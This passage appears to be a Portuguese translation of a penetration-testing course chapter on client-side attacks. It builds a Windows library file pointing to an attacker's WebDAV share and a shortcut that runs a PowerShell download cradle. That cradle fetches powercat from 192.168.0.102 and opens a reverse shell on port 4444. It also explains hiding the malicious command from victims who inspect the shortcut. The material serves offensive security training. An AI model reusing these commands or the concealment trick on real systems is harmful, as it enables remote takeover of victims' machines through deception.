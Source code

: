 

A saída indica que o servidor WebDAV agora está sendo executado na porta 80. Vamos confirmar isso abrindo **http://127.0.0.1** em nosso navegador.

![Figura 25: Conteúdo do compartilhamento WebDAV](https://static.offsec.com/offsec-courses/PEN-200/imgs/clientsideattacks/5377fb2c3624ec7bfb55d60f8196895a-csa_sc_webdavbrowser2.png)


**Criando a biblioteca**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.0.102</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```



**Usaremos o comando que utilizamos anteriormente:**

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.0.102:8000/powercat.ps1');powercat -c 192.168.0.102 -p 4444 -e powershell"
```

> Listagem 18 - PowerShell Download Cradle e PowerCat Reverse Shell Execution

Vamos inserir este comando no campo de entrada e clicar em _Avançar_ .

![Figura 28: Criando um atalho no CLIENT137](https://static.offsec.com/offsec-courses/PEN-200/imgs/clientsideattacks/2ad68e3a33e8ba87b2a27876c2bbf6f5-csa_sc_createshortcut2.png)

Figura 28: Criando um atalho no CLIENT137

Se esperamos que nossas vítimas sejam experientes em tecnologia o suficiente para realmente verificar para onde os arquivos de atalho estão apontando, podemos usar um truque útil. Como nosso comando fornecido parece muito suspeito, poderíamos simplesmente colocar um delimitador e um comando benigno atrás dele para empurrar o comando malicioso para fora da área visível no menu de propriedades do arquivo. Se um usuário verificasse o atalho, ele veria apenas o comando benigno.

Na próxima janela, vamos inserir **automatic_configuration** como o nome do arquivo de atalho e clicar em _Concluir_ para criar o arquivo.
